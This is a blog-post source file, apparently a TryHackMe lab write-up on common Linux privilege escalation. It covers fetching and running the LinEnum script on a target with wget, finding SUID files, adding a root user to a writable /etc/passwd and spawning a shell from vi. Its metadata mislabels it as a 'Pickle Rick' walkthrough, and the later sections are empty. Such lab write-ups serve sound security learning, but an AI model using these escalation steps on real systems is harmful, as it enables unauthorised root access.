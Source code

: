 ```yaml
---
title: TryHackMe - Common Linux Privesc
date: '2021-12-12'
thumb_img_alt: lorem-ipsum
content_img_alt: Icelandic horses
excerpt: Follow along with this "Easy" rated box on TryHackMe to save Pickle Rick.
seo:
  title: Pickle Rick Walkthrough - Easy
  description: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
  extra:
    - name: 'og:type'
      value: article
      keyName: property
    - name: 'og:title'
      value: Pickle Rick CTF Walkthrough - Easy
      keyName: property
    - name: 'og:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
      keyName: property
    - name: 'og:image'
      value: /images/o9pyhyU.jpg
      keyName: property
      relativeUrl: true
    - name: 'twitter:card'
      value: summary_large_image
    - name: 'twitter:title'
      value: Pickle Rick CTF Walkthrough - Easy
    - name: 'twitter:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
    - name: 'twitter:image'
      value: /images/o9pyhyU.jpg
      relativeUrl: true
layout: post
thumb_img_path: /images/icon-b8182a98.png
content_img_path: /images/banner.png
---
```

TryHackMe - Common Linux Privesc (Privilege Escalation): <https://tryhackme.com/room/commonlinuxprivesc>

This box is listed as Easy .  It provides walk-throughs and practice of common linux privilege escalation vectors.  This will not be a walk-through of the machine, but instead a reiteration of the common privesc vectors taught and practiced in the room.

# | What is Privesc?|

Let's start by discussing what "privesc" is.  Essentially, privesc (privilege escalation) is leveraging access to a low pricilege account to move to a higer privilege account (eg user to root).  Privesc can occur in two directions: horizontal and vertical.  In horizontal privesc, access is gained to an account of the same privilege level. This can be beneficial to access private files or if the new user has SUIDs we can exploit.  In vertical privesc, access is gained to an account with more access to the system (admin / root).  Read through the provided information in each of the three tasks and complete each section.

# | Enumeration |

## LinEnum

LinEnum is a bash script which performs common commands related to privesc.  It can be downloaded from:

<https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh>

Two ways to get LinEnum onto the target machine:

First - start a python webserver from the directory with your copy of LinEnum.sh. (python3 -m http.server 8000).  Then, wget the file from the target machine (wget \[LOCAL_IP]:8000/LinEnum.sh).  After it has been transfered to the target machine, make the file executable (chmod +x LinEnum.sh).

Second - Provided you have the required permissions, copy the raw code and create a .sh file in vi/nano/etc and paste the code.  Make the file executable.

LinEnum can be run as \`./LinEnum.sh\`

![](/images/LinEnum-bf8e2df3.PNG)

LinEnum provides a lot of information.  Take the time to read the provided documentation and understand what gets returned.

# | Abusing SUID/GUID Files |

a SUID is a file (as everything in Linux is) which can be run as the owner regardless of the accessing user (in this case run as root).  These can be leveraged to get a shell and root access.  SUID permissions look like:

\`rws-rwx-rwx\`

whereas GUID permissions look like:

\`rwx-rws-rwx\`

These SUID/GUIDs are reported by LinEnum, but can be searched for manually using:

\`find / -perm -u=s -type f 2>/dev/null\`

\`find - search command

/ - search entire file system

\-perm - find specific permissions

\-u=s - any of the permission bits mode are set for the file

\-type f - only searches for files

2>/dev/null - sends errors to null where they're deleted\`

![](/images/SUID.PNG)

# | Exploiting Writeable /etc/passwd |

#### Understanding /etc/passwd format

USERNAME:PASSWORD\*:USER_ID:GROUP_ID:USER_ID_INFO:HOME_DIRECTORY:COMMAND/SHELL

an x character in the password spot indicates the encrypted password is stored in /etc/shadow

Before adding a new user, a compliant password hash must be created (salt:new using new:123)

![](/images/salted%20hash.PNG)

Next, we can nano the passwd file and add our new user

![](/images/created_new-fc2f2b5d.PNG)

switch user (su) and proof of function

![](/images/new_root.PNG)

# | Escaping Vi Editor |

Once access is gained to a machine sudo -l should be ran to list what commands we can use as super user

Inside vi, :!sh will spawn a shell. :q! will quit.

![](/images/vi-ab2c1ba6.PNG)

# | Exploiting Crontab |

Crontabs can be viewed by \`cat /etc/crontab\`



# | Exploiting PATH Variable |
